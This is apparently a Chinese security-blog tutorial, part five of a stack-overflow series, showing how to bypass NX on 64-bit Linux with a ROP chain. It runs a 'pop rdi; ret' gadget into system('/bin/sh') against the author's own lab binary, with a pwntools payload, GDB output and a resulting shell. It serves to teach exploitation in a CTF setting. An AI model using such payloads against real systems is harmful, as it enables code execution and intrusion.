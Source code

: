 ```yaml
---
id: 780
layout: post
title: '二进制安全之栈溢出（五）'
date: 2017-10-24 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


NX 不可执行是一项重要的漏洞利用缓解措施，为了绕过 NX 我们需要利用已有的可执行区域的代码片段来辅助完整漏洞利用。

这次还是需要禁用 ASLR，编译参数为 `gcc -g -O0 -fno-stack-protector -o vuln main.c`

在 32 位系统中，函数调用参数都是通过栈来传递的，而在 64 位系统中，函数参数是优先使用寄存器来传递的，当参数少于 7 个时，参数从左到右放入寄存器 rdi, rsi, rdx, rcx, r8, r9，如果超过 7 个，剩下的参数还是使用栈来传递。

在 32 位系统中，因为栈是相对容易控制的，我们可以控制栈为函数参数的形式，然后覆盖返回地址为已有的函数地址，比如 libc 中的 system 函数，这样就可以实现任意命令执行了。但是在 64 位系统中，控制了栈是没有用的，必须要控制寄存器才可以，除非是函数不需要参数。所以我们需要找到一些已有的指令片段，比如 `pop rdi`，会把栈中的参数转移到寄存器中，这样逐步的控制所需的所有寄存器，我们称这种指令片段为 gadget。

## 需要什么

以执行 `system("/bin/sh")` 为例

 - `system` 函数的地址
 - 要执行的函数参数，这里是 `/bin/sh`，需要在内存中放置或者找到一个已有的。
 - 一个可以把 `/bin/sh` 放入 rdi 寄存器的 gadget。

## `system("/bin/sh")`

`system` 函数的地址可以简单获得

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x400550 <system@plt>
```

而寻找 `/bin/sh` 可以使用 `find` 命令

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
```

发现 libc 中有一个，而 `student` 内存我们可以控制，也可以自己放置一个，这次先使用 libc 中的。

## gadget 的选择

我们需要一个能把 `0x7ffff7b99d17` 放入寄存器的 gadget

[ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 是一个寻找 gadget 的工具，安装后可以使用下面的命令来寻找 

可以看到结果是 

```
➜  new ROPgadget --binary vuln | grep rdi
0x0000000000400803 : pop rdi ; ret
```

发现结果非常理想， `pop rdi; ret;` 可以复制参数到寄存器，其次是 `ret` 可以让程序再回到我们控制的地址上继续后续的执行。

## shellcode

仿照之前的写法，我们很简单就可以写出 shellcode

```python
from pwn import *
shellcode = "1925\n"
shellcode += "A" * (0x7fffffffe348 - 0x7fffffffe2f0)
# pop rdi; ret
shellcode += p64(0x0000000000400803)
# /bin/sh
shellcode += p64(0x7ffff7b99d17)
# system
shellcode += p64(0x400550)

print shellcode
```

## 分析

这个栈布局已经是很清楚了

```
0016| 0x7fffffffe2f0 ('A' <repeats 88 times>, "\003\b@")
0024| 0x7fffffffe2f8 ('A' <repeats 80 times>, "\003\b@")
0032| 0x7fffffffe300 ('A' <repeats 72 times>, "\003\b@")
0040| 0x7fffffffe308 ('A' <repeats 64 times>, "\003\b@")
0048| 0x7fffffffe310 ('A' <repeats 56 times>, "\003\b@")
0056| 0x7fffffffe318 ('A' <repeats 48 times>, "\003\b@")
0064| 0x7fffffffe320 ('A' <repeats 40 times>, "\003\b@")
0072| 0x7fffffffe328 ('A' <repeats 32 times>, "\003\b@")
0080| 0x7fffffffe330 ('A' <repeats 24 times>, "\003\b@")
0088| 0x7fffffffe338 ('A' <repeats 16 times>, "\003\b@")
0096| 0x7fffffffe340 ("AAAAAAAA\003\b@")
0104| 0x7fffffffe348 --> 0x400803 (<__libc_csu_init+99>:	pop    rdi)
0112| 0x7fffffffe350 --> 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
0120| 0x7fffffffe358 --> 0x400550 (<system@plt>:	jmp    QWORD PTR [rip+0x200aca]        # 0x601020)
```

在 GDB 中运行，可以看到 `/bin/dash` 被执行，其实 `/bin/sh` 就仅仅是它的一个符号链接。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
0x7fffffffe2f0What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
[New process 4824]
process 4824 is executing new program: /bin/dash
[New process 4825]
process 4825 is executing new program: /bin/dash
[Inferior 3 (process 4825) exited normally]
Warning: not running or target is remote
```

会发现两个 `/bin/dash` 的原因是 `system` 函数的原理是 `/bin/sh -c $cmd`，所以会先启动一个 `/bin/sh`，然后 `execve` 想运行的命令，这里还是 `/bin/sh`。

因为禁用 ASLR 的原因，libc 的加载地址不变，这个 shellcode 也是可以直接运行的

```
➜  new (cat in.txt; cat) |./vuln
0x7fffffffe360What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
id
uid=1000(virusdefender) gid=1000(virusdefender) groups=1000(virusdefender),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

当然这个 gadget 也不唯一，比如 `python Ropper.py --file /lib/x86_64-linux-gnu/libc.so.6 --search "pop|call"` 得到的 `0x00000000001073d9: pop rax; pop rdi; call rax;` 也非常好用。


## 参考

 - [https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/)
 - [https://zhuanlan.zhihu.com/p/23537552](https://zhuanlan.zhihu.com/p/23537552)

